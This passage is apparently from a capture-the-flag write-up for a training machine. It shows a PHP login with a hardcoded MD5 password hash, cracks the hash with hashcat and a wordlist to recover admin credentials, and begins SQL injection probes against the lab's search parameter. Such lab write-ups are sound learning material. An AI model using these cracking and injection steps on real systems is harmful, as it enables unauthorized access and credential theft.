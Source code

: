 - unzip bak file and get encrypted cred -> hashcat to crack hash

```php
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>
```

- 2cb42f8734ea607eefed3b70af13bbd3 (md5 encryption) -> decrypt -> hashcat

```bash
$ hashcat -m 0 -a 0 hash1 /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 4.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.7, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]

$ hashcat -m 0 -a 0 hash1 /usr/share/wordlists/rockyou.txt --show
2cb42f8734ea607eefed3b70af13bbd3:qwerty789
```

- **admin:qwerty789** -> from index.php.bak, so cred for website login page, not ssh login

### 80 - http

#### sqli -> passwd hash -> crack

![image-20231122092429850](./Vaccine.assets/image-20231122092429850.png)

- utilize sqli to get info (especially user info)

1. test column_size

```bash
http://10.129.103.216/dashboard.php?search=Sandy' order by 1 -- - [y]
...
http://10.129.103.216/dashboard.php?search=Sandy' order by 6 -- - [x]
```

2. check visible column

```bash
http://10.129.103.216/dashboard.php?search=XXX'; select 1,2,3,4,5 -- -
```
